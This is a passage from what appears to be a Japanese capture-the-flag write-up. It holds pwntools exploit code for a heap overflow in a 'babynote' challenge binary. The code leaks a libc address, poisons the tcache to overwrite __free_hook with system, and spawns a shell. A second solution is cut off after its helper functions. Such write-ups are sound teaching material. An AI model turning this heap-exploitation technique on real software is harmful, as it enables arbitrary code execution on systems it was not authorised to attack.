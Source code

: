```python
    s.recvuntil(b"Index: ")
    s.sendline(str(idx))
    

if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """
    """
        - 固定サイズmalloc (0x90)
        - free時にポインタは消される
        - heap overflowあり
    """
    libc = ELF("./libc-2.27.so")

    s = process("./babynote")
    s.recvuntil(b"HERE IS THE GIFT FOR YOU: ")
    libc_addr = int(s.recvline()[2:-1], 16) - libc.symbols["_IO_2_1_stdin_"]
    print(hex(libc_addr))

    create(s, b"unchi")  # 0
    create(s, b"unchi")  # 1
    create(s, b"/bin/sh")  # 2
    delete(s, 1)
    delete(s, 0)
    create(s, b"a" * 0x98 + p64(0x100) + p64(libc_addr + libc.symbols["__free_hook"]))
    create(s)
    create(s, p64(libc_addr + libc.symbols["system"]))
    delete(s, 2)

    s.interactive()

```

### libcアドレス縛りで解いた方

```python
from pwn import p64, u64, ELF, process


def select(s, sel, c=b"> "):
    s.recvuntil(c)
    s.sendline(sel)


def create(s, data=b"junk"):
    select(s, b"1")
    s.recvuntil(b"Contents: ")
    s.sendline(data)


def show(s, idx):
    select(s, b"2")
    s.recvuntil(b"Index: ")
    s.sendline(str(idx))
    s.recvuntil(b"Contents: ")
    return s.recvline().rstrip()


```